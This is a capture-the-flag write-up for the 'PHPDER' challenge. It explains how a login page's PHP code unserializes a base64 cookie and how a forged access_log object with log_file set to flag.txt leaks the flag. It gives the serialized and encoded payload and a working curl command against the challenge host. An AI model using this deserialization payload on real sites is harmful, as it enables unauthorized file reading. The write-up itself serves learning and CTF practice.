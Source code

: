 # PHPDER Writeup

At first glance it is a login page:

![image](https://user-images.githubusercontent.com/80664686/117576250-66aa6180-b10f-11eb-8036-3bdadc9e0a61.png)

I tried a bit of SQL injection but there's just some <span style="color:red">*Invalid Login*</span> error

Ran `gobuster` to do some recon and found `/backup.zip` file. Unzip it and there're the sources of the web

File: [backup.zip](files/phpder_backup.zip)

## Overview code explaination

In `index.php`:
1. Run `cookie.php`
2. If we send a post message with 2 parameters: ***user** & **pass** --> create a new object `permission(user, pass)`
3. Check if the user is guest or admin
4. **Serialize** the object and encode with **base64**
5. Goto `authentication.php`

In `cookie.php`:
1. Create a new class **permission**. P/S: If you're familiar with *object oriented programming*, you should be easily understand it
2. Unserialize the **login** cookie, check if it's guest or admin
3. If cannot unserialize! --> print the object to screen

In `authentication.php`:
1. Create class **access_log** 
2. If it's admin --> append to log file

## Exploitation
By looking at this block:
```php
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```
> If cannot unserialize! --> print the object to screen

If you try to serialize yourself on local enviroment `$php -a`, you'll get something like this:
> TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO047czo4OiJwYXNzd29yZCI7Tjt9<br>
Base64 decode, which is the serialized object:
> O:11:"permissions":2:{s:8:"username";N;s:8:"password";N;}

By default, the website will serialize **permission** then deserialize it. 

What if... we change **permission** object to **access_log** object?

Serialized **access_log**:
> O:10:"access_log":1:{s:8:"log_file";s:8:"flag.txt";}

`flag.txt` is just a guess by the way 😛

Base64 encode:
> TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo4OiJmbGFnLnR4dCI7fQo=

Now we need to add the cookie and let it run the *print object* in `cookie.php`, but we need to request to `authentication.php` first to load the object structure.

```bash
$ curl http://chall4.ctf.night-wolf.io/authentication.php -b 'login="TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo4OiJmbGFnLnR4dCI7fQo="'
Deserialization error. FNW_CTF{pHp_0bj4ct_inj4ct10n_vu1n}
```
